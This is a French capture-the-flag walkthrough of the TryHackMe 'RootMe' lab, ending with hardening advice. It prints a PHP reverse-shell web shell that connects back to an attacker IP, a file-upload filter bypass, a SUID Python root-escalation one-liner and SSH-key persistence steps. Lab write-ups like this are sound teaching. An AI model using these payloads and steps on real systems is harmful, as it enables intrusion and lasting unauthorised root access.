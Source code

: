 # TryHackMe – RootMe

---

## Présentation générale

---

La room **RootMe** est une machine d’initiation sur [TryHackMe](https://tryhackme.com/room/rootme) destinée à illustrer l’exploitation d’un formulaire d’upload vulnérable, suivie d’une élévation de privilèges simple. L’objectif est de récupérer :

1. le flag utilisateur (`user.txt`) ;
2. le flag root (`root.txt`).

---

## Étape 1 : Reconnaissance

### Ciblage de la machine

```text
IP cible : 10.10.104.124
```

Seul le port 80 (HTTP) est accessible.

### Analyse Web

La page d’accueil propose un **téléversement de fichiers**. Toute tentative d’upload d’un fichier `.php` est refusée :

```
PHP não é permitido!
```

---

## Étape 2 : Accès initial via téléversement de fichier

### Vulnérabilité identifiée

L’extension `.php5` est toujours interprétée par Apache comme du PHP. L’upload d’un web‑shell `shell.php5` est donc autorisé :

```php
<?php
$sock = fsockopen('10.8.123.123', 4444);
exec('/bin/sh -i <&3 >&3 2>&3');
?>
```

Le fichier est ensuite accessible à l’URL :

```
http://10.10.104.124/uploads/shell.php5
```

### Exécution du shell

Côté attaquant :

```bash
rlwrap nc -lvnp 4444
```

Le chargement de l’URL déclenche un **reverse shell** sous `www‑data` et permet de lire `user.txt`.

---

## Étape 3 : Escalade de privilèges

### Recherche SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```

Résultat pertinent :

```
/usr/bin/python
```

### Exploitation Python SUID

Le binaire Python possède le bit SUID. Il est donc possible de se faire passer root :

```bash
python -c 'import os,pty; os.setuid(0); os.system("/bin/bash")'
```

```bash
root@rootme:~# whoami
root
```

---

## Étape 4 : Persistance via SSH

1. Générer une paire de clés locale :

   ```bash
   ssh-keygen -t ed25519
   ```

2. Ajouter la clé publique dans `/root/.ssh/authorized_keys` sur la machine cible.

3. Vérifier l’accès :

   ```bash
   ssh -i id_ed25519 root@10.10.104.124
   ```

---

## Résultat final

```bash
root@rootme:~# cat /root/root.txt
THM{<redacted>}
```

---

## Recommandations de sécurité

1. **Filtrage strict des uploads** : liste blanche des extensions et analyse du contenu.
2. **Désactivation des extensions PHP secondaires** dans la configuration Apache.
3. **Réduction de surface SUID** : retirer le bit SUID des interpréteurs non essentiels.
4. **Journalisation et alertes** sur les téléversements et l’exécution de fichiers dans les répertoires web.

---

## Conclusion

Un simple contournement d’upload et une mauvaise gestion des SUID suffisent à compromettre totalement le système. Le durcissement de la configuration Apache et une politique de privilèges minimale sont indispensables.

---

**Auteur :** Saad Idrissi

